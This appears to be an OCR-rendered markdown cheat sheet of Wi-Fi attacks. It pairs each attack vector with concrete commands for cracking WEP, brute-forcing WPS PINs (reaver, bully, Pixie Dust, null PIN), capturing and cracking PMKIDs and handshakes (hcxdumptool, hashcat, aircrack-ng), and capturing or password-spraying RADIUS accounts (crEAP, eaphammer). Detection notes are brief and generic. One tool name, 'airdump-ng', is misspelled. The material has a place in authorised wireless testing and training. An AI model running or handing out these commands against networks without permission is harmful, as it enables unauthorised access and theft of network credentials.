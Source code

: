 | Attack Surface                  | Attack Vector                                     | Description                                                                                | Techniques Used                                                                                                                                | How to Perform                                                                                                                     | How to Detect If Successful                                             |
|---------------------------------|---------------------------------------------------|--------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------|
| WEP                             | Obsolete Protocol                                 | Cracking WEP encryption using various attack methods                                       | `wifite`, `airgeddon.sh`                                                                                                                       | Use tools like `wifite` or `airgeddon.sh` which encompass multiple WEP attack techniques.                                           | Monitor for unauthorized decryption attempts and weak encryption use.   |
| WPA/WPA2-Personal (PSK)         | WPS PIN Attack                                    | Brute forcing WPS PIN to retrieve WPA/WPA2 PSK                                             | `reaver -i mon0 -b <MAC_AP> -c <channel> -f -N [-L -d 2] -vv` <br> `bully mon0 -b <MAC_AP> -c <channel> -S -F -B -v 3`                         | Use tools like `reaver` or `bully` to perform WPS PIN brute force attacks.                                                         | Detect multiple failed WPS attempts and monitor for unauthorized access attempts.  |
| WPA/WPA2-Personal (PSK)         | WPS Pixie Dust Attack (offline)                    | Exploiting offline vulnerability in WPS to retrieve WPA/WPA2 PSK                           | `reaver -i mon0 -b <MAC_AP> -c <channel> -K -N -vv` <br> `bully mon0 -b <MAC_AP> -d -v 3`                                                      | Use tools like `reaver` or `bully` to perform offline WPS Pixie Dust attacks.                                                      | Detect attempts to exploit WPS vulnerabilities and monitor for unauthorized access.   |
| WPA/WPA2-Personal (PSK)         | Null PIN Attack                                   | Using a null PIN to bypass WPS and retrieve WPA/WPA2 PSK                                   | `reaver -i mon0 -b <MAC_AP> -c <channel> -f -N -g 1 -vv -p ""`                                                                                | Use `reaver` to perform null PIN attacks.                                                                                          | Monitor for WPS null PIN attempts and analyze access logs.               |
| WPA/WPA2-Personal (PSK)         | PMKID Capture (client-less) & Cracking            | Capturing PMKID to crack WPA/WPA2 PSK without client interaction                           | `hcxdumptool -i mon0 -o capture.pcapng --enable_status=1 -c <channel>` <br> `hcxpcaptool -E essidlist -I identitylist -U usernamelist -z capture.16800 capture.pcapng` <br> `hashcat -m 16800 capture.16800 -a 0 -w 4 <wordlist>` | Use `hcxdumptool` and `hcxpcaptool` to capture PMKID and `hashcat` for cracking.                                                   | Detect capture attempts and analyze for unusual PMKID activity.          |
| WPA/WPA2-Personal (PSK)         | Handshake Capture (req. client) & Cracking        | Capturing WPA/WPA2 handshake and cracking it                                               | `airdump-ng -c <channel> --bssid <AP_MAC> -w <capture> mon0` <br> `aircrack-ng -a 2 -b <AP_MAC> -w <wordlist> <capture>`                        | Use `airdump-ng` to capture handshake and `aircrack-ng` for cracking.                                                             | Monitor for handshake capture attempts and analyze access logs.          |
| WPA/WPA2-Enterprise (MGT)       | RADIUS Usernames Capture                          | Capturing RADIUS usernames during authentication                                           | `Wireshark > "Identity" field into EAP Message of type "Response, Identity"` <br> `python crEAP.py -i mon0 -c <channel>`                        | Use Wireshark or `crEAP.py` to capture RADIUS usernames.                                                                          | Monitor for RADIUS traffic anomalies and analyze identity field activity.|
| WPA/WPA2-Enterprise (MGT)       | RADIUS Accounts Bruteforce / Password Spraying    | Bruteforcing or spraying passwords on RADIUS accounts                                      | `eaphammer --eap-spray --interface-pool wlan0 wlan1 wlan2 wlan3 wlan4 \ --essid <targetESSID> --password <password_to_spray> --user-list <usernames_list>` | Use `eaphammer` to perform bruteforce or password spraying attacks on RADIUS accounts.                                             | Detect multiple failed authentication attempts and analyze for password spraying patterns.   |